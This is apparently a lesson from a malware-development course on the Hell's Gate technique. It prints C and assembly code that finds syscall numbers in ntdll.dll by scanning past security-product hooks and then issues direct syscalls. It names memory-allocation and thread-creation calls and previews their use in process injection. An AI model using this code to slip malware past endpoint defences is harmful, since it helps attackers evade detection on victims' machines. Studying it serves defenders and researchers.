




Introduction
Recall that using direct syscalls is a way to circumvent userland hooks by manually executing the assembly instructions of a syscall. Hell's Gate is another technique used to perform direct syscalls. By reading through ntdll.dll, Hell's Gate can dynamically find syscalls and then execute them from the binary.
The Hell's Gate paper is available here.
How Hell's Gate Works
Previous modules demonstrated direct syscalls using SysWhispers. The SSN was either hard coded or found using the sorting by system call address method to determine the SSN at runtime. Hell's Gate, on the other hand, uses a different approach to finding the SSN.
Hell's Gate's approach works by searching for the SSN from within the hooked syscall's opcodes which are then called in its assembly functions.
Hell's Gate Breakdown
The complexity of the code requires the explanation to be broken into smaller subsections for easier understanding.
Syscall Structure
Hell's Gate code starts by defining the VX_TABLE_ENTRY structure. This structure represents a syscall and contains the address, the hash value of the syscall name and the SSN. The structure is shown below.
typedef struct _VX_TABLE_ENTRY {
PVOID pAddress; // The address of a syscall function
DWORD64 dwHash; // The hash value of the syscall name
WORD wSystemCall; // The SSN of the syscall
} VX_TABLE_ENTRY, * PVX_TABLE_ENTRY;For example, NtAllocateVirtualMemory would be represented as VX_TABLE_ENTRY NtAllocateVirtualMemory.
Syscalls Table
The syscalls that are being used are kept inside another structure, VX_TABLE. Since each member within VX_TABLE is a syscall, then each member will be of type VX_TABLE_ENTRY.
typedef struct _VX_TABLE {
VX_TABLE_ENTRY NtAllocateVirtualMemory;
VX_TABLE_ENTRY NtProtectVirtualMemory;
VX_TABLE_ENTRY NtCreateThreadEx;
VX_TABLE_ENTRY NtWaitForSingleObject;
} VX_TABLE, * PVX_TABLE;Main Function
The main function starts by calling the RtlGetThreadEnvironmentBlock function that is used to get the TEB. This is required to retrieve ntdll.dll's base address via the PEB (recall the PEB is located within the TEB). Next, the export directory of ntdll.dll is fetched using GetImageExportDirectory. The export directory is found by parsing the DOS and Nt headers, as demonstrated in previous modules.
Next, for each syscall the dwHash member is initialized (e.g. NtAllocateVirtualMemory.dwHash) with its corresponding hash value. With each initialization, the GetVxTableEntry function is called, which is shown below. The function has been split into several parts to simplify the explanation process.
GetVxTableEntry - Part 1
BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry) {
PDWORD pdwAddressOfFunctions = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfFunctions);
PDWORD pdwAddressOfNames = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNames);
PWORD pwAddressOfNameOrdinales = (PWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNameOrdinals);
for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
PCHAR pczFunctionName = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];
if (djb2(pczFunctionName) == pVxTableEntry->dwHash) {
pVxTableEntry->pAddress = pFunctionAddress;
// ...
}
}
return TRUE;
}Part one of the function searches for a Djb2 hash value equal to the syscall's hash, pVxTableEntry->dwHash. Once there is a match then the address of the syscall will be saved to pVxTableEntry->pAddress. The second part of the function is where the Hell's Gate trick resides.
GetVxTableEntry - Part 2
// Quick and dirty fix in case the function has been hooked
WORD cw = 0;
while (TRUE) {
// check if syscall, in this case we are too far
if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
return FALSE;
// check if ret, in this case we are also probably too far
if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
return FALSE;
// First opcodes should be :
// MOV R10, RCX
// MOV RCX, <syscall>
if (*((PBYTE)pFunctionAddress + cw) == 0x4c
&& *((PBYTE)pFunctionAddress + 1 + cw) == 0x8b
&& *((PBYTE)pFunctionAddress + 2 + cw) == 0xd1
&& *((PBYTE)pFunctionAddress + 3 + cw) == 0xb8
&& *((PBYTE)pFunctionAddress + 6 + cw) == 0x00
&& *((PBYTE)pFunctionAddress + 7 + cw) == 0x00) {
BYTE high = *((PBYTE)pFunctionAddress + 5 + cw);
BYTE low = *((PBYTE)pFunctionAddress + 4 + cw);
pVxTableEntry->wSystemCall = (high << 8) | low;
break;
}
cw++;
};The second part begins with a while loop after finding the syscall address, pFunctionAddress. The while loop searches for the 0x4c, 0x8b, 0xd1, 0xb8 bytes which are opcodes for the mov r10, rcx and mov rcx, ssn, being the start of an unhooked syscall.
In the case where the syscall is hooked, the opcodes may not match due to the hook being added by security solutions prior to the syscall instruction. To address this, Hell's Gate attempts to match the opcodes, and if no match is found, the cw variable is incremented, which adds to the address of the syscall on the subsequent loop iteration. This progression continues, moving down one byte at a time until the mov r10, rcx and mov rcx, ssn instructions are reached. The image below illustrates how Hell's Gate finds the opcodes by traversing over the hook.

Boundary Check
To prevent itself from searching too far and obtaining a different SSN for a different syscall, two if-statements are made at the beginning of the while loop to check for the syscall and ret instructions located at the end of the syscall. If the search reaches one of these instructions and the 0x4c, 0x8b, 0xd1, 0xb8 opcodes have not been identified, resolving the SSN will fail.
// check if syscall, in this case we are too far
if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
return FALSE;
// check if ret, in this case we are also probably too far
if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
return FALSE;Calculating & Saving The SSN
On the other hand, if there is a successful match for the opcodes, Hell's Gate will calculate the syscall number and save it to pVxTableEntry->wSystemCall. It is not necessary to understand the calculation, which requires knowledge of bitwise operators, however, those comfortable with the concept can continue reading this section.
The function first uses the left shift operator (<<) to shift the bits of the high variable to the left by 8 times. It then uses the bitwise OR operator (|) to compare each bit of the first operand (being high << 8) to the corresponding bit of the second operand (being low).
pVxTableEntry->wSystemCall = (high << 8) | low;To better understand this, the following is an example using NtProtectVirtualMemory syscall to demonstrate the Hell's Gate approach in calculating the SSN.

The image above is simplified to the snippet below.
00007FFCC42C4570 | 4C:8BD1 | mov r10,rcx |
00007FFCC42C4573 | B8 50000000 | mov eax,50 | 50:'P'
00007FFCC42C4582 | 0F05 | syscall |
00007FFCC42C4584 | C3 | ret |The C4C:8BD1 B8 50000000 bytes correspond to the following offsets:
4C is offset 0, 8B is offset 1 and D1 is offset 2, B8 is offset 3, 50 is offset 4, 00 is offset 5 and so on. The GetVxTableEntry function specifies that the high and low variables have an offset of 5 and 4, respectively.
BYTE high = *((PBYTE)pFunctionAddress + 5 + cw); // Offset 5
BYTE low = *((PBYTE)pFunctionAddress + 4 + cw); // Offset 4Checking the value at offset 5 reveals that it is 0x00, while the offset at 4 is 0x50. This means that the value of high is 0x00 and low is 0x50. Therefore, the SSN is equal to (0x00 << 8) | 0x50.

The result of the bitwise operation matches the SSN number of NtProtectVirtualMemory, which is 50 in hex.

Calling The Syscall
Now that Hell's Gate has fully initialized the VX_TABLE_ENTRY structure of the target syscall, it can now call it. To do this, Hell's Gate uses two 64-bit assembly functions: HellsGate and HellDescent, shown in the hellsgate.asm file.
data
wSystemCall DWORD 000h ; this is a global variable used to keep the SSN of a syscall
.code
HellsGate PROC
mov wSystemCall, 000h
mov wSystemCall, ecx ; updating the 'wSystemCall' variable with input argument (ecx register's value)
ret
HellsGate ENDP
HellDescent PROC
mov r10, rcx
mov eax, wSystemCall ; `wSystemCall` is the SSN of the syscall to call
syscall
ret
HellDescent ENDP
endTo call a syscall, first, the syscall number needs to be passed to the HellsGate function. This saves it to the wSystemCall global variable for future use. Next, HellDescent is used to call the syscall by passing the syscall's parameters. This is demonstrated in the Payload function.
Conclusion
It's been shown that bypassing userland hooks is possible through the use of direct syscalls, the SysWhispers tool and Hell's Gate technique. In upcoming modules, the process injection techniques previously implemented will be modified to utilize syscalls instead of WinAPIs.